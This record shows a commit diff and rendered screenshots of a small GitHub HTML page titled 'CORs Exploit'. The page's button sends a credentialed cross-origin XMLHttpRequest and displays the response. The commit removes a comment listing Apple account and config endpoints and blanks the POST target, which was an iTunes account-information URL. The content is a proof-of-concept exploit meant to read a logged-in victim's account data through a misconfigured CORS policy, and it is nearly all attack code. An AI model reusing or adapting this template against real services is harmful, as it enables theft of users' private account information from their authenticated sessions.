

Before and after one commit to shivammusic/Cors.music.apple.com, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Exploit". Shown: the whole page, without its empty margins (320-960 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,9 +5,7 @@
 <center>
 <h2>CORs Exploit</h2>
   <h1></h1>
-  <!-- https://xp.apple.com/config/1/report/xp_its_music_main
-https://amp-account.music.apple.com/account/web/config
-https://buy.itunes.apple.com/account/web/infoRefresh-->
+
 <textarea rows="10" cols="60" id="pwnz">
 </textarea><br>
 <button type="button" onclick="cors()">Exploit</button>
@@ -21,7 +19,7 @@ function cors() {
       document.getElementById("pwnz").innerHTML = this.responseText;
     }
   };
-  xhttp.open("POST", "https://buy.itunes.apple.com/account/information/sections", true);
+  xhttp.open("POST", "", true);
   xhttp.withCredentials = true;
   xhttp.send();
 }
```
